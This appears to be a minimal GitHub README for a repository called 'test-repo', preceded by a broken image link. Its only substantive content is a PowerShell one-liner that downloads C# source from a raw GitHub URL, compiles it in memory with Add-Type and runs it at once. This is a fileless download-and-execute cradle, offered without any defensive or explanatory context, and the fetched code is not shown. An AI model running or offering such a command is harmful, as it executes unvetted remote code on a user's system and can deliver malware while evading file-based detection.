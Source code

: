 # test-repo

powershell: Add-Type -TypeDefinition (new-object net.webclient).downloadstring("https://raw.githubusercontent.com/0x59R11/test-repo/main/code.cs") -Language CSharp; [Runner]::Run()
